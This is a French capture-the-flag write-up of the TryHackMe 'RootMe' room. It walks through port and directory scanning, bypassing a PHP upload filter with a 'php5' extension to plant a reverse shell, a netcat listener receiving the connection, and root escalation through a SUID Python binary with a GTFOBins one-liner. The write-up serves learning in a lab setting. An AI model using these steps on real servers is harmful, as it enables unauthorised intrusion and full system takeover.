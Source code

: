 ```yaml
---
title: RootMe
tags: [TryHackMe, Facile, Linux, Apache]
style: border
color: thm
comments: false
description: Exploitation d'un serveur web Apache
---
```

Lien vers l'épreuve : <https://tryhackme.com/room/rrootme>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [Reconnaissance](#reconnaissance)
* [Analyse du serveur Apache](#analyse-du-serveur-apache)
* [Élévation de privilèges](#élévation-de-privilèges)

## Reconnaissance

```bash
nmap -T4 -A rootme.thm
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-12 14:12 CEST
Nmap scan report for rootme.thm (10.10.156.223)
Host is up (0.033s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/12%OT=22%CT=1%CU=42224%PV=Y%DS=2%DC=T%G=Y%TM=670
OS:A67BC%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A
OS:)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=105%GCD=1%ISR=10C%T
OS:I=Z%CI=Z%II=I%TS=D)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=
OS:M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4
OS:B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%
OS:DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=
OS:G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   31.33 ms 10.9.0.1
2   31.84 ms rootme.thm (10.10.156.223)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.37 seconds
```

Le scan {% include dictionary.html word="NMAP" %} met en lumière la présence de 2 ports ouverts : un serveur {% include dictionary.html word="SSH" %} sur le port 22 et un serveur {% include dictionary.html word="HTTP" %} Apache en version 2.4.29 sur le port 80.

## Analyse du serveur Apache

```bash
gobuster dir -u http://rootme.thm -w /usr/share/wordlists/dirb/common.txt -x php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://rootme.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
[...expurgé pour brièveté...]
/css                  (Status: 301) [Size: 306] [--> http://rootme.thm/css/]
/index.php            (Status: 200) [Size: 616]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 305] [--> http://rootme.thm/js/]
/panel                (Status: 301) [Size: 308] [--> http://rootme.thm/panel/]
/server-status        (Status: 403) [Size: 275]
/uploads              (Status: 301) [Size: 310] [--> http://rootme.thm/uploads/]
Progress: 13842 / 13845 (99.98%)
===============================================================
Finished
===============================================================
```

L'outil {% include dictionary.html word="gobuster" %} nous permet d'identifier une page *panel* et une page *uploads*.

Pour l'instant, la page *uploads* est vide, et la page *panel* nous permet de téléverser des fichiers.

{% include elements/figure.html image="/images/THM/20241012/Capture_ecran_2024-10-12_panel.png" caption="Possibilité d'uploader des fichiers" %}

Nous tentons de téléverser une page {% include dictionary.html word="PHP" %} permettant d'obtenir un [*{% include dictionary.html word="reverse-shell" %}*](https://github.com/pentestmonkey/php-reverse-shell), mais sans succès : Il y a un filtrage sur le type de fichiers autorisés.

{% include elements/figure.html image="/images/THM/20241012/Capture_ecran_2024-10-12_php_interdit.png" caption="Upload de fichiers PHP interdit" %}

Nous utilisons l'outil d'exploitation web **Burp Suite** afin de trouver un contournement possible à la limitation, et nous parvenons à uploader le *{% include dictionary.html word="reverse-shell" %}* en ajoutant un chiffre à la fin de l'extension, indiquant la version de *{% include dictionary.html word="PHP" %}* à utiliser.

Le *{% include dictionary.html word="reverse-shell" %}* proposé par **pentestmonkey** nécessitant une version supérieure à 4, et la version actuelle étant la 8, nous nous sommes contenté de tester les valeurs de 4 à 8.

{% include elements/figure.html image="/images/THM/20241012/Capture_ecran_2024-10-12_php_intruder.png" caption="Upload de plusieurs versions php avec succès" %}

Nous avons à présent téléverser plusieurs versions de notre *{% include dictionary.html word="reverse-shell" %}*, il ne nous reste plus qu'à préparer un port en écoute avec {% include dictionary.html word="Netcat" %}, puis à nous rendre à la page *uploads* pour vérifier quelle(s) version(s) fonctionne(nt).

La version `php5` nous permet d'obtenir un shell fonctionnel.

```bash
nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.9.1.73] from (UNKNOWN) [10.10.117.180] 39092
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:17:38 up 9 min,  0 users,  load average: 0.00, 0.23, 0.21
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

Nous commençons par améliorer notre *reverse-shell* avec la commande suivante :

{% gist ab3c791e25baa7b437d0324f6d3195af %}

Puis nous recherchons le flag utilisateur

```bash
find / -iname user.txt -type f 2>/dev/null
/var/www/user.txt

cat /var/www/user.txt
THM{y[...expurgé...]l}
```

## Élévation de privilèges

Cette épreuve est guidée, et nous sommes invités à trouver un fichier avec des permissions SUID. Ce type de permissions permet à n'importe quel utilisateur d'utiliser un programme avec les privilèges du propriétaire.

{% gist fb795c271652c9004ad77f11be2b66db %}

Nous utiliserons la commande ciblant les SUID (`-perm /4000`)

```bash
find / -user root -perm /4000 -exec ls -ldbh {} \; 2>/dev/null
[...expurgé pour brièveté...]
-rwsr-xr-x 1 root root 19K Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 44K Mar 22  2019 /usr/bin/chsh
-rwsr-sr-x 1 root root 3.5M Aug  4  2020 /usr/bin/python
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 146K Jan 31  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 40K Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59K Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 22K Mar 27  2019 /usr/bin/pkexec
[...expurgé pour brièveté...]
-rwsr-xr-x 1 root root 43K Jan  8  2020 /bin/mount
-rwsr-xr-x 1 root root 44K Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 31K Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 63K Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 27K Jan  8  2020 /bin/umount
```

Il est assez peu courant d'avoir des privilèges aussi élevé sur le binaire **Python**.

Le site [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) nous permet de trouver la commande nécessaire pour élever nos privilèges et devenir root.

```bash
python -c 'import os; os.execl("/bin/bash", "bash", "-p")'

bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.4#
```

Nous avons à présent les droits root sur la machine, nous pouvons terminer par trouver le flag **root.txt**

```bash
cat /root/root.txt
THM{p[...expurgé...]n}
```
